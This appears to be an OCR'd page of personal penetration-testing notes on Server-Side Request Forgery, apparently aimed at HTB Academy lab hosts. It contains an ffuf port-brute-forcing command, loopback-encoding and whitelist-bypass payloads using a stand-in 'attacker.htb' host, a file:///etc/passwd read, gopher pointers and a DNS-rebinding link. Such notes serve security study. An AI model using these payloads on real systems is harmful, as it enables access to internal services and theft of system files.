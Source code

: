 Server-side Request Forgery, triggering a request made from the server.
- [ ] URL in parameters
- [ ] Check for open redirection

(Ffuf) Brute-forcing ports
```bash
ffuf -w ports.txt:FUZZ -u http://10.129.15.17/ -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://127.0.0.1:FUZZ/&date=2025-01-01" -fr 'Something went wrong!'
```
Detecting SSRF
```bash
https://webhook.site/401e2e49-6a1c-4e43-a888-f11830e699d4 # webhook
http://127.0.0.1/
http://localhost/
http://2130706433/ # represents 127.0.0.1
http://017700000001/
http://[::1]/
http://127.1/
# Whitelist bypass (if http://attacker.htb must be present)
http://attacker.htb/
http://academy.htb.attacker.htb/
http://academy.htb@attacker.htb/
http://attacker.htb/callback?a=http://academy.htb
http://attacker.htb/callback#http://academy.htb
```
Exploiting SSRF
```bash
file:///etc/passwd # php
gopher
```
(Gopherus) Constructing gopher
```bash
```

### DNS Rebinding Bypass SSRF Protections
https://lock.cmpxchg8b.com/rebinder.html
- Set DNS through Burp, host name similar to victim.
- Rebinds to 127.0.0.1 addresses to do SSRF through DNS Rebinding.